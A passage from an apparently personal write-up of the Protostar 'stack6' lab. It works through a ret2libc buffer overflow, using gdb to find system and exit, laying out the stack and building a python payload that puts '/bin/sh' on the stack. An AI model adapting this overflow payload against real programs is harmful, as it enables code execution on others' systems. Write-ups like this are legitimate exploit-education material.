 ```
 ________________
| other things   |
| that don't     |
| matter         |
```

Let's address the easy issues first, finding the addresses of `system` and `exit`. Using gdb:

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Now for the part that confused me the most. How TF do I find `/bin/sh`? I saw a lot of people do it online by using a secondary program to create a few environment variables, and also the same technique was used in the book The Shellcoder's Handbook. Seeing as I am lazy (and also the thought of having to debug other people's C...), however, I thought it would be useful to do it another way. Since the memory is super predictable, I can just pass in `/bin/sh` as part of the input, find it on the stack, and then pass that address in. Let's try!

So the stack now has to look like:
```
 ________________ < ebp - 0x4c
|  our buffer    |
 ________________ < ebp 
|    old ebp     |
 ________________
| system entry   |
 ________________
| exit   entry   |
 ________________
| pointer to     |
| /bin/sh        |
 ________________
| /bin/sh string |
 ________________
| other things   |
| that don't     |
| matter         |
```

```bash
python -c 'print "A" * 80 + "\x4c\x82\x04\x08" + "\x00\x00\x00\x00" + "\x00\x00\x00\x00" + "\x2f\x62\x69\x6e\x2f\x73\x68"' | ./stack6
```

Run this and inspecting the coredump, we see:
```arm
(gdb) x/4x $esp
0xbffff800:	0x00000000	0x00000000	0x6e69622f	0x0068732f
(gdb) x/s 0xbffff808
0xbffff808:	 "/bin/sh"
```
